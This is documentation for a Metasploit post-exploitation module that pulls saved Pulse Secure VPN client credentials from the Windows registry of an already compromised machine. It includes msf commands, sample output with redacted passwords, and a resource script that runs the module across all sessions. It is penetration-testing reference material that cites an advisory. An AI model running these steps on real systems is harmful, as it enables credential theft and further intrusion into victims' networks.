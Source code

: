 ## Vulnerable Application

Pulse Secure VPN Client for Windows <= 9.1R3.

An end-to-end setup with working Juniper Pulse Secure VPN server, Pulse Secure client on Microsoft Windows, and valid credentials are required for Pulse Secure client to save credentials locally and therefore test this.


## Verification Steps

1. Get a meterpreter on a windows machine that has Pulse Secure client installed.
2. Load the module: `use post/windows/gather/credentials/pulse_secure`
3. Set the correct session on the module.
4. Run the module and enjoy the loot.

## Example Run

**Normal mode**
```
msf > use post/windows/gather/credentials/pulse_secure
msf > set SESSION 1
msf > run
```

Output:

```
[*] Checking for Pulse Secure IVE profiles in the registry
[+] Account Found:
[*]      Username:
[*]      Password: REDACTED
[*]      URI: https://connect.contoso.com/pulse
[*]      Name: Home Working VPN (EU)
[*]      Source: user
[+] Account Found:
[*]      Username:
[*]      Password: REDACTED
[*]      URI: https://connect.contoso.com/pulse
[*]      Name: Home Working VPN (US)
[*]      Source: user
[*] Post module execution completed
```

## Scenarios

**Run on all sessions**
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/pulse_secure")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

## References

- https://qkaiser.github.io/reversing/2020/10/27/pule-secure-credentials
- https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44601
